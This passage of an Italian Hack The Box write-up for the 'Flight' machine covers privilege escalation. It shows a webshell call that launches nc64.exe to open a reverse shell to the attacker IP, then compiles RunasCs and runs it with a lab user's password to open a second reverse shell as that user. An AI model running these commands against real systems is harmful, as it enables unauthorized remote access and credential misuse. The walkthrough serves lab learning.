 **Funziona!**

Ora devo passare da una webshell ad una shell vera. Per farlo scarico l'eseguibile _nc64.exe_ da [qui](https://github.com/int0x33/nc.exe/). Lo carico nella cartella /"flight.htb" (la stessa del file _shell.php_) della macchina vittima, avvio un listener sulla porta 1234 e lancio il seguente comando dalla mia macchina:

```bash
curl -G flight.htb/shell.php --data-urlencode 'cmd=nc64.exe -e cmd.exe 10.10.14.8 1234'
```

<p align="center">
  <img src="/Immagini/Windows-Box/Flight/flight-17.png"/>
</p>

Purtroppo, l'utente della shell appena ottenuta è quella dell'utente _svc_apache_.

Provo quindi ad utilizzare il tool [RunasCs](https://github.com/antonioCoco/RunasCs) per ottenere una shell per l'utente _c.bum_. Copio il file _RunasCs.cs_ nella cartella "flight.htb" e lo compilo:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -target:exe -optimize -out:RunasCs.exe RunasCs.cs
```

Successivamente, lo eseguo per ottenere una reverse-shell per l'utente _c.bum_:

```bash
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.8:9999 cmd
```

<p align="center">
  <img src="/Immagini/Windows-Box/Flight/flight-18.png"/>
</p>
